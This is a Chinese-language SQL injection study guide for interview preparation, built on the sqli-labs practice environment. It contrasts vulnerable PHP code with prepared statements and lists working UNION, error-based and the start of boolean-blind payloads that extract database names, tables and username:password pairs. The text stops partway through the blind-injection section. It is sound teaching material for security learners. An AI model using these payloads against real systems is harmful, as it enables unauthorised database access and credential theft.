# SQL注入完全指南

> 📅 整理时间：2026-07-15  
> 🎯 目标：掌握所有SQL注入类型，能口述原理、写Payload、讲防御  
> 🏠 环境：sqli-labs + MySQL 5.7  
> 💼 适用：实习面试 / 初级渗透测试工程师

---

## 目录

- [一、SQL注入基础概念](#一sql注入基础概念)
- [二、注入点判断](#二注入点判断)
- [三、Union注入](#三union注入联合查询注入)
- [四、报错注入](#四报错注入)
- [五、布尔盲注](#五布尔盲注)
- [六、时间盲注](#六时间盲注)
- [七、堆叠注入](#七堆叠注入)
- [八、POST注入](#八post注入)
- [九、Cookie/Header注入](#九cookieheader注入)
- [十、宽字节注入](#十宽字节注入)
- [十一、SQL注入防御](#十一sql注入防御)
- [十二、面试高频问题](#十二面试高频问题)
- [附录：常用Payload速查表](#附录常用payload速查表)

---

## 一、SQL注入基础概念

### 1.1 什么是SQL注入

**定义：** 用户输入的数据被当作SQL代码执行，导致数据库被非法操作。

**根本原因：** 后端代码将**用户输入**直接**拼接**进SQL语句，没有区分"代码"和"数据"。

### 1.2 后端代码对比

#### ❌ 不安全的代码（存在注入）

```php
<?php
// 字符型
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id='$id'";

// 数字型
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id=$id";

// 搜索型
$keyword = $_GET['keyword'];
$sql = "SELECT * FROM products WHERE name LIKE '%$keyword%'";

// 执行
$result = mysql_query($sql);
?>
```

#### ✅ 安全的代码（预处理语句）

```php
<?php
// PDO预处理
$pdo = new PDO('mysql:host=localhost;dbname=test', 'root', 'root');
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
$stmt->bindParam(':id', $_GET['id'], PDO::PARAM_INT);
$stmt->execute();

// mysqli预处理
$mysqli = new mysqli("localhost", "root", "root", "test");
$stmt = $mysqli->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $_GET['id']);
$stmt->execute();
?>
```

### 1.3 SQL注入分类

| 分类维度 | 类型 |
|---------|------|
| **数据类型** | 字符型、数字型、搜索型 |
| **回显情况** | Union注入、报错注入、布尔盲注、时间盲注 |
| **注入位置** | GET、POST、Cookie、Header |
| **高级类型** | 堆叠注入、宽字节注入、二次注入、DNSLog注入 |

---

## 二、注入点判断

### 2.1 单引号测试法

| 步骤 | Payload | 正常页面 | 存在注入 |
|------|---------|---------|---------|
| 1 | `?id=1` | 正常显示 | 正常显示 |
| 2 | `?id=1'` | 报错或异常 | **SQL语法错误** |
| 3 | `?id=1'--+` | 正常显示 | 正常显示（注释成功） |

> 
>
> 
>
> 

#### 报错信息分析

| 报错内容 | 注入类型 |
|---------|---------|
| `near ''1'' LIMIT 0,1'` | **字符型**（单引号包裹） |
| `near '1 LIMIT 0,1'` | **数字型**（无引号） |
| `near ''1'') LIMIT 0,1'` | **字符型+括号** `')` |
| `near '"1"" LIMIT 0,1'` | **双引型+括号** `")` |

### 2.2 判断字段数（ORDER BY）

**原理：** `ORDER BY n` 按第n个字段排序，字段不存在则报错。

```
?id=1' ORDER BY 1--+   -- 正常
?id=1' ORDER BY 2--+   -- 正常
?id=1' ORDER BY 3--+   -- 正常
?id=1' ORDER BY 4--+   -- 报错：Unknown column '4'
```

**结论：** 字段数 = 3

> 
>
> 
>
> 
>
> 
>
> *说明：ORDER BY 3正常，ORDER BY 4报错，确认字段数为3*

### 2.3 判断显示位（UNION SELECT）

**原理：** 用 `UNION` 合并查询，让数据库返回额外数据。

**关键点：** `id=-1` 让原查询无结果，只显示Union数据。

```
?id=-1' UNION SELECT 1,2,3--+
```

**结果分析：**
- 页面上显示的数字位置 = **回显位**（可以放敏感数据）
- 不显示的位置 = 无效位

> 
> *说明：页面显示数字2和3，说明第2、3字段为回显位*

---

## 三、Union注入（联合查询注入）

### 3.1 适用条件

- ✅ 有回显（页面显示查询结果）
- ✅ 知道字段数
- ✅ 知道显示位

### 3.2 字符型Union注入（sqli-labs Less-1）

#### 后端代码

```php
<?php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
?>
```

#### 注入全流程

| 步骤 | Payload | 目的 |
|------|---------|------|
| 1 | `?id=1'` | 确认注入点 |
| 2 | `?id=1' ORDER BY 3--+` | 判断字段数=3 |
| 3 | `?id=-1' UNION SELECT 1,2,3--+` | 找显示位 |
| 4 | `?id=-1' UNION SELECT 1,database(),version()--+` | 查数据库名和版本 |
| 5 | `?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()--+` | 查所有表名 |
| 6 | `?id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users' AND table_schema=database()--+` | 查users表的列 |
| 7 | `?id=-1' UNION SELECT 1,group_concat(username,':',password),3 FROM users--+` | 提取所有账号密码 |

> 
> *Payload: `?id=-1' UNION SELECT 1,database(),version()--+`*  
> *结果：数据库名 `security`，版本 `5.7.26`*

> 
> *Payload: `?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()--+`*  
> *结果：emails,referers,uagents,users*

> 
> *Payload: `?id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users' AND table_schema=database()--+`*  
> *结果：id,username,password*

> 
> *Payload: `?id=-1' UNION SELECT 1,group_concat(username,':',password),3 FROM users--+`*  
> *结果：Dumb:Dumb, Angelina:I-kill-you...*

#### 关键词解释

| 关键词 | 含义 | 作用 |
|--------|------|------|
| `UNION` | SQL运算符，合并两个查询结果 | 把恶意查询和原查询合并 |
| `SELECT 1,2,3` | 占位查询，数字对应字段位置 | 测试显示位 |
| `id=-1` | 不存在的ID | 让原查询无结果，只显示Union数据 |
| `--+` | SQL注释 | `--`是注释，`+`URL解码为空格 |
| `database()` | MySQL函数 | 返回当前数据库名 |
| `version()` | MySQL函数 | 返回MySQL版本号 |
| `information_schema` | 系统数据库 | 存所有数据库的元数据（表、列信息） |
| `information_schema.tables` | 系统表 | 存所有数据库的所有表信息 |
| `information_schema.columns` | 系统表 | 存所有数据库的所有列信息 |
| `table_schema` | 字段名 | 表所属的数据库名 |
| `table_name` | 字段名 | 表名 |
| `column_name` | 字段名 | 列名 |
| `group_concat()` | MySQL函数 | 将多行结果合并成一行，逗号分隔 |

### 3.3 数字型Union注入（sqli-labs Less-2）

#### 后端代码

```php
<?php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id=$id LIMIT 0,1";
?>
```

#### 与字符型的区别

| 对比项 | 字符型 | 数字型 |
|--------|--------|--------|
| SQL语句 | `WHERE id='$id'` | `WHERE id=$id` |
| 是否有引号 | ✅ 有单引号 | ❌ 无引号 |
| 注入Payload | `1' UNION...--+` | `1 UNION...` |
| 是否需要闭合引号 | 需要 `'` | 不需要 |

#### 注入Payload

```
?id=-1 UNION SELECT 1,database(),version()
?id=-1 UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()
?id=-1 UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users'
?id=-1 UNION SELECT 1,group_concat(username,':',password),3 FROM users
```

> 
>
> 
>
> 
>
> 
>
> *说明：数字型无需引号闭合，直接 UNION 即可*

**注意：** 数字型不需要引号闭合，也不需要 `--+` 注释（除非后面有额外SQL）。

### 3.4 搜索型Union注入

#### 后端代码

```php
<?php
$keyword = $_GET['keyword'];
$sql = "SELECT * FROM products WHERE name LIKE '%$keyword%'";
?>
```

#### 注入Payload

```
?keyword=' UNION SELECT 1,2,3--+          -- 闭合前面的 '%，注释后面的 %'
?keyword=' UNION SELECT 1,database(),3--+  
```

**实际SQL：**
```sql
SELECT * FROM products WHERE name LIKE '%' UNION SELECT 1,2,3--+%'
```

---

## 四、报错注入

### 4.1 适用条件

- ❌ 无回显（页面不显示查询结果）
- ✅ 有报错信息（页面显示SQL错误）
- 从报错信息中提取数据

### 4.2 常用报错函数

| 函数 | MySQL版本 | 原理 |
|------|-----------|------|
| `floor()` | 5.0+ | `rand()` + `floor()` + `group by` 导致主键冲突报错 |
| `extractvalue()` | 5.1+ | XPath语法错误，报错带出数据 |
| `updatexml()` | 5.1+ | XPath语法错误，报错带出数据 |
| `exp()` | 5.5+ | 数值溢出报错 |
| `geometrycollection()` | 5.5+ | 几何函数报错 |

### 4.3 extractvalue报错注入（sqli-labs Less-5）

#### 后端代码

```php
<?php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
// 只显示错误，不显示查询结果
?>
```

#### 原理

`extractvalue(xml_document, xpath_string)`

- 第二个参数需要合法的XPath路径
- 如果传入 `~`（0x7e）开头的字符串，XPath解析失败，报错信息中**带出完整字符串**

#### Payload

```
?id=1' AND extractvalue(1,concat(0x7e,(SELECT database())))--+
```

**实际SQL：**
```sql
SELECT * FROM users WHERE id='1' AND extractvalue(1,concat(0x7e,(SELECT database())))--+' LIMIT 0,1
```

**报错结果：**
```
XPATH syntax error: '~security'
```

> 
> *Payload: `?id=1' AND extractvalue(1,concat(0x7e,(SELECT database())))--+`*  
> *报错结果：`XPATH syntax error: '~security'`*

#### 提取表名

```
?id=1' AND extractvalue(1,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())))--+
```



**问题：** `extractvalue` 最多显示 **32个字符**，超出被截断。

**解决：** 用 `substr()` 分段提取

```
?id=1' AND extractvalue(1,concat(0x7e,(SELECT substr(group_concat(table_name),1,31) FROM information_schema.tables WHERE table_schema=database())))--+
?id=1' AND extractvalue(1,concat(0x7e,(SELECT substr(group_concat(table_name),32,31) FROM information_schema.tables WHERE table_schema=database())))--+
```

> 
>
> 
>
> *说明：使用 substr() 分段提取，绕过32字符限制*

### 4.4 updatexml报错注入

```
?id=1' AND updatexml(1,concat(0x7e,(SELECT database())),1)--+
```



**报错结果：**

```
XPATH syntax error: '~security'
```

### 4.5 floor报错注入

```
?id=1' UNION SELECT 1,count(*),concat(0x7e,(SELECT database()),0x7e,floor(rand(0)*2))a FROM information_schema.tables GROUP BY a--+
```



**原理：** `rand(0)` 伪随机数 + `floor()` + `GROUP BY` 导致主键重复报错。

---

## 五、布尔盲注

### 5.1 适用条件

- ❌ 无回显（不显示查询结果）
- ❌ 无报错（不显示错误信息）
- ✅ 页面有差异（True时显示内容，False时不显示/显示不同）

### 5.2 原理

通过构造条件语句，让页面返回 **True** 或 **False**，逐位猜测数据。

| 条件 | 页面表现 |
|------|---------|
| `1=1`（真） | 正常显示 |
| `1=2`（假） | 不显示/显示不同内容 |

### 5.3 判断数据库名长度（sqli-labs Less-8）

```
?id=1' AND length(database())=1--+   -- 假，页面异常
?id=1' AND length(database())=2--+   -- 假，页面异常
?id=1' AND length(database())=3--+   -- 假，页面异常
?id=1' AND length(database())=4--+   -- 假，页面异常
?id=1' AND length(database())=5--+   -- 假，页面异常
?id=1' AND length(database())=6--+   -- 假，页面异常
?id=1' AND length(database())=7--+   -- 假，页面异常
?id=1' AND length(database())=8--+   -- 真，页面正常（security=8位）
```

> *当猜测长度为1~7时*
>
